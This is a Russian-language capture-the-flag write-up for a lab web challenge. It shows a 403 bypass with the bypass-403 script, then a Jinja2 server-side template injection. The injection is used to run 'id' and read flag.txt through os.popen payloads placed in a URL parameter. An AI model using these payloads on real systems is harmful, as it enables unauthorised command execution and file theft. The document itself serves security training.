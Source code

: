 web3

1. При вводе данных сайт выдает ошибку: "403 Forbidden". Ее можно обойти с помощью скрипта Bypass-403: https://github.com/iamj0ker/bypass-403.

2. Для установки скрипта введем следующие команды в терминале:
	1) git clone https://github.com/iamj0ker/bypass-403
	2) cd bypass-403
	3) chmod +x bypass-403.sh
	
3. Введем команду, в которой укажем наш сайт и путь к файлу flag.txt: ./bypass-403.sh http://192.168.12.11:8001 flag

4. Программа выдает несколько адресов:![Screenshot_2024-03-21_10_14_41](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/5a1e2f9f-79a3-4636-a75c-9ee38b49566e) Выбираем один из адресов с наибольшим временем, например: http://192.168.12.11:8001//flag//, переходим по ссылке и получаем следующий результат:![Screenshot_2024-03-21_10_20_47](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/3feedbef-f71d-434b-a1e7-2bfdbbe872b4)
 
5. Теперь посмотрим на исходный код сайта, а именно на файл "app.py". В строке 24 мы видим, что функции передается параметр "name". Функция выдает два результата в зависимости от полученных данных. Если имя не содержит запрещенных символов, то на экран выводится сообщение "привет <имя>", в противном случае: "Содержит запрещенные символы". ![Screenshot_2024-03-21_10_22_30](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/2dfe648e-5648-4b61-8774-6593b7193ec3)


6. Попробуем передать функции параметр "name". Напишем в адресной строке браузера: http://192.168.12.11:8001//flag?name=abc. Получаем следующее:![Screenshot_2024-03-21_10_27_39](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/3b0595e7-b42a-4994-ba1a-a94359557a73) Далее вместо "abc" напишем запрещенные символы: "mro". Видим следующее:![Screenshot_2024-03-21_10_31_20](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/f0d634dd-64ec-4aff-892b-1837dfc79207) На первый взгляд кажется, что функция работает корректно.

7. Вполне возможно, что сайт имеет уязвимость. С помощью SSTI (внедрения шаблонов на стороне сервера) попробуем что-нибудь достать с сервера. Введем в адресную строку вместо "mro" "{{2*22}}". На экране выдим рузультат математической операции:![Screenshot_2024-03-21_10_34_42](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/a7f98e6c-1b32-49f9-9d91-906c0030df57)
Сервер не заметил запрещенные символы и выполнил команду. Это и есть уязвимость.

8. Проверим, выведет ли сервер ID файлов, которые хранятся на нем. Откроем документацию на GitHub (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2) и найдем следующий пункт "Exploit the SSTI by calling os.popen().read()". Вместо "{{2*22}}" введем "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}". Получаем:![Screenshot_2024-03-21_10_42_32](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/2b99527f-7580-4f0f-b02b-af9f7116badf) Сервер выдал ID файлов.

9. Если сервер вывел ID файлов, то он может вывести и содержимое файлов. Нам необходимо найти флаг, поэтому введем команду: http://192.168.12.11:8001//flag?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()%20}}; и получим флаг: ![Screenshot_2024-03-21_10_45_13](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/909398a7-b9c5-4673-8a77-6948c6060872)
 
